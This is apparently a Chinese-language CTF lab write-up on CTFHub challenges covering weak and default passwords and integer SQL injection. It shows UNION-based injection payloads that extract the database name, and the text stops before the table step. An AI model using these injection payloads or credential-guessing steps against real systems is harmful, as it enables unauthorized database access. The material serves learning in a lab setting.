 问题：该软件不能正常使用，需要配置组件（暂未解决）

## 密码口令

### 弱口令

我的密码是admin123

![](img/1265c0a91b00eaf2fdb14d3973f7f07b.png)

### 默认口令

这个题看很特别，看别人wp上说：是通过网上搜索eyou的默认口令来进入网站

https://blog.csdn.net/weixin_45785288/article/details/108274723

考查的信息收集能力

## SQL注入

### 整数型注入

#### 1.检测注入点

输入1得到Data: ctfhub输入2得到Data：skill输入3没有回显，输入1 or 1=1也会显示1的内容这是直接显示出来了？

#### 2.构造注入语句

##### a.得到数据库

-1 union select 1,2

得到回显Data: 2

-1 union select 1,3

得到回显Data: 3

-1 union select 1,database()

回显Data: sqli（得到数据库）

##### b.得到数据库里面的表
